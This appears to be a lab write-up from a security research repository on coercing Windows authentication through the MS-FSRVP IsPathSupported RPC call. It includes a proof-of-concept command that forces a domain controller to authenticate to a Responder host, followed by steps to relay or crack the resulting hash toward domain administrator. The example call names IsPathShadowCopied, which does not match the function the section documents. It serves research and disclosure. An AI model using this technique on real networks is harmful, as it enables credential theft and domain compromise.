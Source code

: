# MS-FSRVP - Remote call to IsPathSupported (opnum 8)

## Summary

 - **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

 - **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

 - **Protocol version**: 1.0

 - **Function name**: [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb)

 - **Function operation number**: `8`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\FssagentRpc` and bind to (uuid `a8e0653c-2744-4389-a61d-7373df8b2292`, version `1.0`) in order to perform calls to RPC functions of the `MS-FSRVP` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\FssagentRpc`. This pipe is connected to the [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. It will then call the remote [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathShadowCopied('\\192.168.2.51\NETLOGON\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD IsPathSupported(
    [in] handle_t hBinding,
    [in] [string] LPWSTR ShareName,
    [out] BOOL* SupportedByThisProvider,
    [out] [string] LPWSTR* OwnerMachineName
);
```

 - **hBinding**:  An RPC binding handle (as defined in [C706]).


 - **ShareName**: The full path of the share in UNC format.


 - **SupportedByThisProvider**:  A Boolean, when set to TRUE, that indicates that shadow copies of this share are supported by the server.


 - **OwnerMachineName**:  The name of the server machine to which the client MUST connect to create shadow copies of the specified ShareName. 

## References

 - Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b


 - Documentation of function `IsPathSupported`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb

 - This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Dec 28, 2021: https://twitter.com/topotam77/status/1475701014204461056